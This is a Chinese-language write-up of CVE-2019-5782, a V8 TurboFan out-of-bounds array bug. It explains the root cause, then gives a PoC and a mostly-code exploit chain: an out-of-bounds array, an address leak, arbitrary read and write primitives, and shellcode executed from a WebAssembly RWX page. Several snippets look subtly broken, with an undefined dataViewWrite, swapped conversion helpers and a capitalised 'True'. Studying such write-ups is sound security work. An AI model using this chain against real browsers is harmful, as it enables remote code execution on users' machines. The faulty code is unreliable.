

## CVE-2019-5782

这是一个v8数组越界的漏洞

### Root case

```
let x = arguments.length;

在对ArgumentsLength 节点的类型进行定义时，参数的最大个数规定为了65534，但是实际上我们是可以超过这个数字的。
Type const kArgumentsLengthType = Type::Range(0.0, Code::kMaxArguments, zone()); // kMaxArguments = 65534
```

在Load Elimination阶段将会生成ArgumentsLength节点，此时它的range为(0,65534)

在Load Elimination阶段右移节点仍为 Range(-32768, 32767)；（原因：此时还不会对Load处理，于是在第一次对NumberShiftRight进行range analysis的时候，会将其范围直接当做int32的最大和最小值。） 
在 Simplified Lowering 节点的 Type Propagation 阶段中，会调用 UpdateFeedbackType 函数（src/compiler/simplified-lowering.cc），该函数会再一次根据每个节点的输入值的类型，对 Feedback Type 进行更新，更新之后 SpeculativeNumberShiftRight的类型为Range(0,0)；

此时x的range为(0, 0)，它被作为数组的index，因为它（index）小于数组的length，所以会在VisitCheckBounds中消除CheckBounds节点。

```
void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckParameters const& p = CheckParametersOf(node->op());
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));
    if (length_type.Is(Type::Unsigned31())) {
      if (index_type.Is(Type::Integral32OrMinusZero())) {
        // Map -0 to 0, and the values in the [-2^31,-1] range to the
        // [2^31,2^32-1] range, which will be considered out-of-bounds
        // as well, because the {length_type} is limited to Unsigned31.
        VisitBinop(node, UseInfo::TruncatingWord32(),
                   MachineRepresentation::kWord32);
        if (lower()) {
          if (lowering->poisoning_level_ ==
                  PoisoningMitigationLevel::kDontPoison &&
              (index_type.IsNone() || length_type.IsNone() ||
               (index_type.Min() >= 0.0 &&
                index_type.Max() < length_type.Min()))) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            DeferReplacement(node, node->InputAt(0));
```




poc如下：

```
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1, 2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 3; i++) fun(...a4);
%OptimizeFunctionOnNextCall(fun);
fun(...a4);
res = fun(...a3);
assertEquals(16, a2.length);
for (let i = 8; i < 32; i++) {
  assertEquals(undefined, a2[i]);
}

```

漏洞点是在对fun函数的优化过程中产生的，漏洞导致了我们可以对a1数组进行越界写，从而可以将内存中紧跟在a1.elements后的a2数组做任意写，在POC中对就是对a2的length进行了修改。

既然可以通过a1修改a2的length，那我们只要将其修改为一个极大的值，那么我们就可以获得一个越界的数组a2。

数组越界的漏洞还是很常见的，利用起来也不是很难：

利用思路：

- 获得越界数组
- leak object address
- arbitrary read and write
- 利用wasm执行shellcode


##### 1 获得越界数组

poc中是调用%OptimizeFunctionOnNextCall(fun);来使fun被优化，之后发现了ray-cp师傅的代替%OptimizeFunctionOnNextCall的方法，就是下面的循环：
```
function foo(arg)
{
    let idx = arguments.length;
    idx = idx>>16;
    idx = idx * 6;
    let arr = [1.1, 2.2, 3.3];
    arr[idx] = 1.74512933848984e-310;   // overwrite the length i2f(0x202000000000)
    return arr;
}

//%OptimizeFunctionOnNextCall(foo);
for(let i=0; i<MAX_ITERATIONS; i++)
{
    foo(i);
}
var b = new Array(1<<16);
oobArray = foo(...b);
```

##### 2 leak object
``` 
objArray = {m:i2f(0xdeadbeef), target:func};
dataBuf = new ArrayBuffer(0x200);

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        break;
    }
} 

//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x200) {
        ArrayBufIdx = i + 1;
        break;
    }
}

```

可以定义一个对象：objArray，对象有两个属性,通过对target赋值为目标对象，我们通过遍历数组oobArr,找到target属性后，就可以通过oobArr[offest]的方式将它的地址泄漏出来。

```
function addrOf(obj)
{
    objArray.target=obj;
    return f2i(oobArray[ObjectIdx]) - 1;
}
```


##### 3 arbitrary read and write

```
// arbitrary read
function dataViewRead64(addr)
{
    oobArray[ArrayBufIdx]=i2f(addr);
    return f2i(dataView.getFloat64(0, true));
}

// arbitrary write
function dataViewWrite64(addr, value)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    return dataView.setFloat64(0, f2i(value), True);
}
```

aar和aaw是通过控制bk来实现的，我们之前以经找到了bk在oobArray的偏移，我们就可以通过修改bk为想要读/写的地址，之后对该对象进行读取或写入即可达到目的。


##### 4 使用wasm getshell

通过wasm找到rwx的流程：

wasmInstance.exports.main -> shared_info -> data -> instance -> RWX (instance+0xe8)

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,
    127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,
    1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,
    0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,10,11]);
var func = wasmInstance.exports.main;

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];


dataViewWrite(rwxAddr, shellcode);


func();
```

